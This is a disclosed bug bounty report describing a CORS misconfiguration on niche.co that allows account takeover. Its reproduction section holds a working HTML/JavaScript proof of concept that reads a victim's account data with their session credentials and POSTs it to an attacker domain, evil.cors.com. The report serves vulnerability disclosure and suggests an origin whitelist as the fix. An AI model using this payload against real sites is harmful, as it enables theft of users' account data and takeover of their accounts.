 # CORS misconfig | Account Takeover

## Report Details
- **Report ID**: 426147
- **URL**: https://hackerone.com/reports/426147
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-10-20T11:17:55.552Z
- **Disclosed**: 2018-12-10T18:28:33.696Z

## Reporter
- **Username**: nahoragg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** 
CORS misconfig is found on niche.co as Access-Control-Allow-Origin is dynamically fetched from client Origin header with **credential true** and **different methods are enabled** as well.

**Description:**
Basically, the application was only checking whether "//niche.co" was in the Origin header, that means i can give anything containing that. For ex : "https://niche.co.evil.net", "https://niche.com", i can even change the protocol like http, ftp, file etc. F363563: cors_1.png

## Steps To Reproduce:
Exploit:
Host this code on a domain(http://niche.co.evil.net) or any other that contains "//niche.co".
```
<html>
<body>
<button type='button' onclick='cors()'>CORS</button>
<p id='demo'></p>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
var a = this.responseText; // Sensitive data from niche.co about user account
document.getElementById("demo").innerHTML = a;
xhttp.open("POST", "http://evil.cors.com", true);// Sending that data to Attacker's website
xhttp.withCredentials = true;
console.log(a);
xhttp.send("data="+a);
}
};
xhttp.open("GET", "https://www.niche.co/api/v1/users/*******", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</body>
</html>
```
As soon as victim visit this malicious page, his details will be fetched from his current session and sent to attacker's domain where it can be logged or saved. F363586: cors_3.png F363564: cors_2.png

## How to fix

Rather than using a wildcard or programmatically verifying supplied origins, use a whitelist of trusted domains.

## Supporting Material/References:

https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
https://ejj.io/misconfigured-cors/

## Impact

Using this misconfig, attacker can do many actions depending on the functionality of application which in this case use **API** and do activities like:
1) Read, Update, Delete Users information(Email,Location,Bio etc)
2) Stealing Authenticity_token(CSRF) 
3) Delete social accounts on niche
4) **View private posts of social accounts**
5) Close account
6) Logout etc.

## Attachments
- cors_1.png
- cors_2.png
- cors_3.png

